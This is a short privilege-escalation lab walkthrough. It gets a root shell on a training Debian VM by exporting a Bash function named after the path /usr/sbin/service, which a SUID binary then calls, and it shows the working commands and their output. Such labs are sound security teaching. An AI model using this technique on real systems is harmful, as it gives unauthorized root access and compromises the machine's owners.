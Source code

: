 The /usr/local/bin/suid-env2 executable is identical to /usr/local/bin/suid-env except that it uses the absolute path of the service executable (/usr/sbin/service) to start the apache2 webserver.

Verify this with strings:
```
strings /usr/local/bin/suid-env2
```
```
user@debian:~$ strings /usr/local/bin/suid-env2
/lib64/ld-linux-x86-64.so.2
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
/usr/sbin/service apache2 start
```
In Bash versions <4.2-048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.

Verify the version of Bash installed on the Debian VM is less than 4.2-048:
```
/bin/bash --version
```
```
user@debian:~$ /bin/bash --version
GNU bash, version 4.1.5(1)-release (x86_64-pc-linux-gnu)
...
```
Create a Bash function with the name "/usr/sbin/service" that executes a new Bash shell (using -p so permissions are preserved) and export the function:
```
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
```
Run the suid-env2 executable to gain a root shell:
```
/usr/local/bin/suid-env2
```
```
user@debian:~$ function /usr/sbin/service { /bin/bash -p; }
user@debian:~$ export -f /usr/sbin/service
user@debian:~$ /usr/local/bin/suid-env2
root@debian:~# exit
```